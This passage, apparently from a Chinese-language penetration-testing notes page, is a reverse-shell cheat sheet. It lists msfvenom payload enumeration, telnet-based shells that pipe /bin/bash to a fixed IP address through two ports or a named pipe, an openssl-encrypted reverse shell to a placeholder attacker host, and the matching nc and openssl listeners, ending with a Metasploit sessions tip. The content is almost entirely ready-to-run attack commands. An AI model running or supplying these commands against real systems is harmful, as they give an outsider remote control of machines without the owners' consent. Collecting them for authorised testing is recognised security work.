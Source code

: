- msf 生成 payload

    ```sh
    msfvenom -l payload | grep "ruby" | awk '{print $1}'
    ```

## Telnet

- 方法一

    *攻击端监听两个端口，第一个用于输入命令，第二个返回结果*

    攻击机：
    ```sh
    nc -lvvp 5555
    nc -lvvp 6666
    ```

    目标机： 

    ```sh
    telnet 47.101.214.85 5555 | /bin/bash | telnet 47.101.214.85 6666
    ```

- 方法二

    控制端

    ```sh
    nc -lvvp 8888
    ```

    被控端

    ```sh
    rm -f a && mknod a p && telnet 47.101.214.85 6666 0<a | /bin/bash 1>a
    rm -f a;mknod a p;telnet 47.101.214.85 6666 0<a | /bin/bash 1>a
    ```

## openssl

>openssl 反弹443端口，流量解密传输

控制端生成密钥文件

```sh
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

控制端开启监听

```sh
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

被控端反弹shell

```sh
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s
```

## 关于web_delivery的注意点

***成功反弹shell后，控制端会有返回连接会话id，使用`sessions`命令也可以查看当前建立的连接，`sessions id`进入指定的会话，然后输入`shell`进入交互界面***